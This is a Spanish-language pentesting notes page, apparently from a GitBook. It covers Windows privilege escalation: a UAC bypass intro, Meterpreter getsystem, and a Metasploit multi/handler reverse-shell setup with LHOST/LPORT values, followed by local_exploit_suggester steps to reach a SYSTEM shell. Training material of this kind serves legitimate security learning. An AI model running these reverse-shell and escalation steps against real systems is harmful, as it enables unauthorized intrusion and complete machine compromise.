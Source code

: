 # 🪟 Windows

## Bypassing UAC con UACMe

{% hint style="info" %}
El Control de Cuentas de Usuario (UAC) en Windows es una característica de seguridad que previene cambios no autorizados en el sistema. Cuando una acción requiere permisos administrativos, UAC solicita la confirmación del usuario mediante una ventana emergente. Esto ayuda a proteger contra malware y modificaciones no deseadas, asegurando que solo usuarios autorizados puedan realizar cambios críticos en el sistema.

![](<../.gitbook/assets/image (1) (1) (1) (1).png>)
{% endhint %}

{% hint style="warning" %}
Para poder usar este método, necesitamos tener acceso a una cuenta que pertenezca al grupo de administradores locales de windows.

Para comprobarlo, podemos ejecutar los siguientes comandos:

```powershell
net users

net localgroup administrators
```

Ejemplo de un caso, en el que es viable este método:

![](<../.gitbook/assets/image (2) (1) (1) (1).png>)
{% endhint %}

## Elevación automática con Metasploit

Cuando tenemos una consola meterpreter, podemos usar el comando "`getsystem`" para realizar una sencilla elevación de privilegios de manera automática:

<figure><img src="../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

## Metasploit + Msfvenom&#x20;

Podemos escalar privilegios con metasploit en windows. En primer lugar deberemos de generar un payload con msfvenom ( [#reverse-shell-tcp-con-exe](../explotacion/msfvenom.md#reverse-shell-tcp-con-exe "mention")) y pasarlo a nuestra maquina victima.

Después desde la maquina atacante, nos ponemos a la escucha con metasploit a través de multi/handler. Deberemos de ejecutar los siguientes comandos:

{% hint style="warning" %}
Los valores de los comandos de Metasploit deben ser lo mismos con los que se ha generado el payload en msfvenom (.exe) que está en la maquina victima
{% endhint %}

```bash
msfconsole

use /multi/handler

set LHOST 192.168.1.12    # IP Maquina atacante

set LPORT 4444 # Debe ser el mismo puerto que el que hemos puesto en el payload de msfvenom

set PAYLOAD windows/meterpreter/reverse_tcp # Debe ser el mismo que el que hemos puesto en el payload de msfvenom

run
```

Ahora ejecutamos el payload en la maquina victima y obtenemos una sesión de meterpreter:

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
En muchos casos en los que nos encontramos con que tenemos una meterpreter ya en el sistema, podemos ejecutar el comando "`run post/multi/recon/local_exploit_suggester`" para poder enumerar potenciales exploits para la escalada.
{% endhint %}

Una vez en la sesión de meterpreter (NO EN LA CMD DE WINDOWS), ponemos "`background`" y "`search local_exploit_suggester`":

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Esta opción nos dará el exploit más adecuado para la escalada, lo seleccionamos "`use 0`" y miramos las opciones que tiene. En este caso, nos pide el ID de la sesión de meterpreter:

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ponemos el ID de la sesión (lo puedes averiguar con el comando "`sessions -l`"). Ejecutamos:

<figure><img src="../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora, nos aparecerá una lista en colores verde y rojo. Los payloads de color rojo deberemos de omitirlos y centrarnos en los de verde.

<figure><img src="../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

Cualquiera de estos podría funcionar (no está asegurado), usamos uno de ellos seleccionándolo:

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

Ahora, ajustamos los valores necesarios ("`show options`"). Si el modulo funciona obtendremos una sesión de meterpreter en la que podremos abrir una shell ("`shell`") como `nt authority\system`. En el caso de que no funcione volvemos atrás ("`back`") y probamos con otro
